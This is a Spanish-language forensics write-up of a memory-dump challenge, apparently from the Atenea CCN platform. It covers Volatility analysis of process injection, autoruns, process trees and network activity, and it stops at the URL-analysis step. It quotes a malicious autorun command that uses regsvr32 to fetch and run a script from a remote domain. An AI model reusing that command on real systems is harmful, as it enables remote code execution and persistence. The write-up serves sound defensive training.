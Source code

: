 ```yaml
---
title: Reto DFIR 2 - Atenea CCN
date: 2025-01-15 19:12:49 +0100
categories: [Laboratorios, DFIR]
tags: [dfir, forensics, malware analysis, memory analysis, volatility]
---
```


## Recursos

[Enlace del fichero usado (Google Drive)](https://drive.google.com/file/d/1OgjS9MtPklkL-jeiZcoj9SLAs8mFcl41/view?usp=sharing)

## Contexto

### Información

Sospechamos que el volcado de memoria adjunto se corresponde con una máquina que ha
sido infectada de forma persistente por algún tipo de malware, posiblemente un dropper.
Nos gustaría identificar el dominio dañino utilizado por el mismo.

## Análisis de procesos

![Listado de procesos](/assets/img/posts/atenea_dfir_2/20250115_191249_2025-01-15_20-12.png)
_Aquí podemos ver algunos procesos interesantes y algunas anomalías que iremos viendo más adelante_

### Identificando posibles inyecciones en los comandos

En volatility disponemos de un módulo para intentar detectar inyecciónes o comportamientos anómalos en los procesos de windows.

![Análisis de anomalías](/assets/img/posts/atenea_dfir_2/20250115_192639_Peek_2025-01-15_20-26.gif)
_Podemos ver que encuentra posibles anomalías en los dos prodesos de Internet Explorer y en csrss_

### Análisis

En el proceso csrss.exe (PID 592):

-> Tiene una región de memoria con permisos PAGE_EXECUTE_READWRITE (que es sospechoso para csrss.exe)

-> Contiene código ensamblador que parece shellcode, con instrucciones como OUT y STD que son inusuales en código legítimo

En dos procesos de IEXPLORE.EXE (PIDs 1624 y 3728):

-> Ambos tienen regiones idénticas en la dirección 0x5fff0000
-> También con permisos PAGE_EXECUTE_READWRITE
-> Contienen la firma "dtrR" seguida de un patrón de bytes similar
-> El código ensamblador incluye un CALL FAR que podría ser usado para ejecución de código malicioso

## Análisis de autoruns

### Plugin autorun

[Github](https://github.com/Telindus-CSIRT/volatility3-autoruns/blob/main/autorun.py)

Una vez importado este plugin nos permite ver que ejecutables están configurados para ejecutarse al inicio del sistema lo que es normal en la forma de generar persistencia en un malware.

![Análisis de autoruns](/assets/img/posts/atenea_dfir_2/20250115_193253_2025-01-15_20-32.png

### Análisis

La entrada más sospechosa es 

regsvr32 /u /s /i:http://wiki-read.com/info.txt scrobj.dll

Este comando en el autoruns es muy sospechoso porque:

-> Usa regsvr32 para desregistrar (/u) scrobj.dll
-> Intenta cargar un script desde una URL externa (http://wiki-read.com/info.txt)
-> Se ejecuta silenciosamente (/s)
-> Está configurado para ejecutarse automáticamente al inicio del sistema

![Análisis adicional de autoruns](/assets/img/posts/atenea_dfir_2/20250115_193539_2025-01-15_20-35.png)

regsvr32 /s /n /i:U shell32

Este comando aparece dos veces como "_nltide_2" en RunOnce para diferentes usuarios.

Hasta ahora el posible vector inicial de infección parece ser la descarga y ejecución del script malicioso desde wiki-read.com mediante regsvr32, que es una técnica conocida de "Living off the Land" para evadir defensas.

### Correlación

Esto encaja con el hallazgo anterior:

-> El script malicioso probablemente fue descargado a través de Internet Explorer

-> Inyectó código en csrss.exe (un proceso crítico del sistema)

-> Los dos procesos de IE con la misma firma indican que el malware se replicó

## Relación con los procesos

![Árbol de procesos](/assets/img/posts/atenea_dfir_2/20250115_194308_2025-01-15_20-43.png)

### Relación

Los procesos de Internet Explorer sospechosos (PIDs 1624 y 3728) son hijos de explorer.exe (PID 1868)

-> Esto es normal ya que IE se suele lanzar desde el explorador
-> Pero recordemos que ambos tienen la misma región de memoria maliciosa

Hay varios shells de cmd.exe abiertos (PIDs 3468, 300, 1080) también como hijos de explorer.exe

-> Esto podría indicar actividad de comando y control
-> Especialmente sospechoso tener múltiples shells abiertos

Hay dos instancias de explorer.exe (PIDs 1868 y 1608)

-> Una es hija de winlogon.exe (normal)
-> La otra (PID 1608) parece huérfana (su padre PID 1552 no existe)
-> Esta segunda instancia podría ser una persistencia del malware

El proceso regedit.exe (PID 2664) podría indicar modificaciones al registro

-> Esto coincide con las entradas de autoruns que encontramos antes

### Línea temporal

La línea temporal sugiere:

- 23:47: Se inicia el primer IE sospechoso (PID 1624)
- 23:49: Se modifican las entradas de autoruns (según el output anterior)
- 23:52: Se inicia el segundo IE sospechoso (PID 3728)

## Análisis de conexiónes

![Análisis de conexiones](/assets/img/posts/atenea_dfir_2/20250115_195117_2025-01-15_20-50.png)

### Análisis

Los procesos de IE sospechosos tienen actividad de red:

-> PID 1624 usando UDP puerto 1031 en 127.0.0.1
-> PID 3728 usando UDP puerto 1035 en 127.0.0.1
-> Ambos procesos usan conexiones UDP locales, lo que es inusual para IE

Cronología interesante:

-> 23:47:13: Primera conexión del IE sospechoso (PID 1624)
-> 23:52:15: Segunda conexión del IE sospechoso (PID 3728)
-> Coincide con la timeline que vimos en el pstree

La comunicación UDP en localhost entre los procesos de IE es especialmente sospechosa y podría indicar:

- Comunicación entre componentes del malware
- Túnel C2 (Command & Control)
- Evasión de firewalls

## Análisis de URLs en memoria

### Datos del proceso 1624

Dado el timeline que hemos visto:

-> PID 1624 (primer IE) se inició a las 23:47:12
-> Las modificaciones del registro ocurrieron a las 23:49
-> PID 3728 (segundo IE) se inició después a las 23:52:15

El PID 1624 parece ser la infección inicial que desencadenó todo, así que es el mejor candidato para buscar la URL maliciosa.

![Volcado de memoria del proceso](/assets/img/posts/atenea_dfir_2/20250115_195422_2025-01-15_20-54.png)
_Lo volcamos en un txt por si es mucho contenido_

![Análisis de URLs en memoria](/assets/img/posts/atenea_dfir_2/20250115_200501_2025-01-15_21-04.png)